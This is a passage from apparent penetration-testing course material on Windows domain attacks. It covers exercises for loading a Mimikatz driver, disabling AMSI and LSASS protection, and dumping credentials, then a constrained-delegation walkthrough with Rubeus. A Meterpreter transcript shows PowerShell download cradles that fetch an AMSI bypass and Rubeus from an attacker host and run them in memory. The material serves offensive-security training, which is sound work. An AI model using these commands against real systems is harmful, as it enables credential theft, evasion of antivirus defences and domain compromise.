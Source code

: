 **Exercises**

1. Download the appropriate versions of mimidrv.sys and Invoke-Mimikatz to the Kali machine web root.
2. Migrate the SYSTEM shell into a different SYSTEM process to ensure stability.
3. Transfer the Mimikatz driver and launch it manually with the service control manager.
4. Disable AMSI and use Invoke-Mimikatz to disable the PPL protection on LSASS.
5. Transfer and use the custom application to dump the LSASS process memory.
6. Download the dump file, transfer it to the "test" machine, and extract the NTLM hash for the web01 machine account.

1

(ss64, 2020), [https://ss64.com/nt/sc.html](https://ss64.com/nt/sc.html) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/combining-the-pieces-14687/combining-the-pieces-14955#fnref-local_id_744-1)

#### 21.2.3. Delegate My Ticket

Since web01 is configured with constrained delegation to the file01 machine, this means that we can use the web01 machine account NTLM hash to request a TGS as any user for the CIFS service on file01.

If we request a TGS as a user that is a member of the Domain Admins group, we will have the permissions required to obtain code execution on file01.

The best tool for constrained delegation abuse is _Rubeus_.

Before compiling Rubeus, we must change the .NET version to target 4.6 since that is what is installed on Windows Server 2019. We can do this by navigating to _Project_ > _Rubeus Properties_ and changing the _Target framework_ to _.NET Framework 4.6_.

If we compile and transfer the Rubeus binary to web01 and try to directly invoke it from the command prompt, it is very likely that the antivirus will flag it. This is because the default version of Rubeus is well known to antivirus engines, even when we perform the compilation ourselves. At this point, we can either try to modify the Rubeus source code to evade detection or execute it directly from memory after disabling AMSI. Due to the rather large Rubeus code base, we will run it from memory.

After Rubeus is compiled, we'll copy it to the web root of our Kali machine and turn to our SYSTEM Meterpreter shell. We'll open a command prompt and in turn, open PowerShell. Here, we'll initially bypass AMSI through a download cradle, after which we'll download Rubeus into memory and load it as an assembly.

```
meterpreter > shell
Process 1004 created.
Channel 3 created.
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/amsi.txt') | IEX
(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/amsi.txt') | IEX

PS C:\Windows\system32> $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/Rubeus.exe')
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/Rubeus.exe')

PS C:\Windows\system32> $assem = [System.Reflection.Assembly]::Load($data)
$assem = [System.Reflection.Assembly]::Load($data)
PS C:\Windows\system32> 
```
